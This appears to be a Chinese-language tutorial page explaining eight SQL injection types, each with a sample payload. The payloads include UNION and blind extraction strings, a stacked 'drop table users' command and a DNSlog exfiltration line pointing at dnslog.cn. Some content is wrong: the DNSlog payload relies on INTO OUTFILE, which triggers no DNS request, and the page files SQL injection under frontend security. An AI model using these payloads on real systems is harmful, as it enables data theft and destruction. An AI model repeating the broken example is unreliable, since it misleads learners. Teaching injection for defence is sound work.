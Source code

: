 ```yaml
---
title: 常见的 SQL 注入漏洞有哪些？
category: 前端安全
date: 2025-07-07 14:58
difficulty: 困难
excerpt: 列举了八种常见的 SQL 注入漏洞类型，并详细解释了每种类型的攻击方法和示例。
tags:
- SQL注入
- 安全性
- 安全
---
```

常见的 SQL 注入漏洞是指攻击者通过恶意 SQL 代码嵌入用户输入字段中，滥用数据库操作逻辑的多种方式。基于注入原理、数据利用和页面响应的分类，主要类型包括以下几种：

### 1. 报错注入 (Error-Based Injection)

攻击者触发数据库错误，使内部信息泄露到页面。常用于有错误回显的场景，如使用 `extractvalue()` 或 `updatexml()` 函数通过错误消息暴露数据库表数据：
```sql
' and extractvalue(1, concat(0x5c, (select user()))) -- 
```

### 2. 联合查询注入 (UNION-Based Injection)

通过插入 `UNION SELECT` 附加恶意查询，返回数据库完整信息集。需字段数目匹配和回显支持：
```sql
id=1' union select database(),user(),version() from information_schema.tables-- 
```

### 3. 布尔盲注 (Boolean-Based Blind Injection)

注入真假逻辑条件，观察页面行为差异（如内容显示或错误）来判断数据库信息，无直接数据反馈：
```sql
id=2 and substring((select database()),1,1)='D' -- 
```

### 4. 时间盲注 (Time-Based Blind Injection)

通过执行延迟操作（如 `SLEEP` 或 `BENCHMARK` 函数）探测是否注入成功：
```sql
id=2 and if(ascii(substring(database(),1,1))>90,sleep(5),0)-- 
```

### 5. 堆叠查询注入 (Stacked Queries Injection)

在单一请求中执行多个独立 SQL 语句，需目标支持多语句（如 SQL Server）：
```sql
' ;drop table users;--
```

### 6. 宽字节注入 (Wide-Character Injection)

利用字符集处理（如 GBK）导致过滤转义失效，从而绕过查询：
```sql
id=2 %df' union select 1,2-- 
```

### 7. 二次注入 (Second-Order Injection)

恶意数据先存入数据库，后在后续代码中作为参数提取而触发注入：
```sql
初次输入 user: 'admin'-- ; 次次查询时执行 SELECT * FROM users WHERE id='admin'-- --
```

### 8. DNSlog 外带数据注入 (DNSlog Injection)

通过构造域名记录外带数据，适用于数据库支持文件和 DNS 的场景：
```sql
concat(user(),'.a.dnslog.cn') INTO OUTFILE '/file' 
```

这些漏洞常见源于应用程序未过滤用户输入或使用字符串拼接 SQL，分类可基于类型、回显或请求方式深化，但上述代表现实中的高风险利用。防范建议包括实施参数化查询和输入验证等安全实践。
